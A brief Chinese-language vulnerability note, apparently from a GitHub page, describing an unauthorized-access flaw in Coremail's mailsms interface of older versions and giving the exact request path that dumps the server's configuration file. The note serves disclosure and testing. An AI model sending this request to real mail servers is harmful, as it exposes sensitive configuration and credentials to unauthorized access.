 Coremail mailsms接口配置存在未授权访问漏洞，可能导致敏感信息泄露。旧版本近日经过一系列测试，确实存在漏洞。测试中，Coremail配置文件未授权访问的地址如下：

url+/mailsms/s?func=ADMIN:appState&dumpConfig=
